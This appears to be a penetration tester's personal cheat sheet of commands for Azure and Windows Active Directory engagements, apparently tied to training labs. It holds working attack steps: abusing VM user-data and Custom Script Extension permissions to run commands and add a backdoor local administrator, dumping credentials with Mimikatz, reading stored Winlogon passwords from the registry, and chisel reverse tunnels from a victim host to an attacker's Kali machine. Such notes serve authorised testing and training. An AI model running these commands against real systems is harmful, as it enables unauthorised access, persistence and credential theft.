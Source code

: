 **AZURE**
- **Check UserData**
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```
- **Modify UserData**
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
- **Check VM Extensions**
```
Get-AzVMExtension -ResourceGroupName Research -VMName infradminsrv
```
- **Set VM Extensions**
```
## Following permissions are required to create a custom script extension and read the output: "Microsoft.Compute/virtualMachines/extensions/write" and "Microsoft.Compute/virtualMachines/extensions/read"

Set-AzVMExtension -ResourceGroupName Research -VMName infradminsrv -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users student87 Stud87Password@123 /add /Y; net localgroup administrators student87 /add /Y"}'
```


**Random**
```
Get-AzRoleAssignment | select scope,objectid,DisplayName,objecttype,RoleDefinitionName,RoleDefinitionId | ft

xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

script -qc /bin/bash /dev/null
```
**Python3 VENV**
```
python3 -m venv /path/of/venv

source /path/to/venv/bin/activate

deactivate (To exit)
```
**Hide Error in PowerShell**
```
$ErrorActionPreference= 'silentlycontinue'
```
**Filtering Powershell objects**
```
Get-UserProperty -Properties logoncount | Where logoncount -ne 0

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} 
```
**Creds**
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
Invoke-Mimikatz -DumpCreds/-DumpCerts 
```
**Service Ticket Combos - https://adsecurity.org/?p=2011**

**DC Time Sync**
```
proxychains net time set -S 172.16.3.5
```

**Expand Property**
```
(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id 
```

**SnapLabs Firefox Copy-Paste Support**
```
about:config -> dom.events.testing.asyncClipboard
```
**Linux Easy PTTY**
```
script -qc /bin/bash /dev/null
```
**Chisel Forwarding**

- To get same functionality as local forwards on SSH tunnels.
Example: Any traffic to port 8001 on Kali gets forwarded to 192.168.0.102:80
```
chisel server -p 8000 -reverse (on Kali)

chisel client kali:8000 R:8001:192.168.0.102:80 (on Victim)
```
- To get same functionality as remote forwards on SSH tunnels.
Example: Any traffic to port 8001 on victim gets forwarded to kali:80
```
chisel server -p 8000 (on Kali)

chisel client kali:8000 8001:127.0.0.1:80 (on Victim)
```
**Kali Recursive 'git pull' on all custom cloned tool repos**
```
cd /opt;for i in \`ls\`;do cd $i;pwd;sudo git pull;cd -;done
```
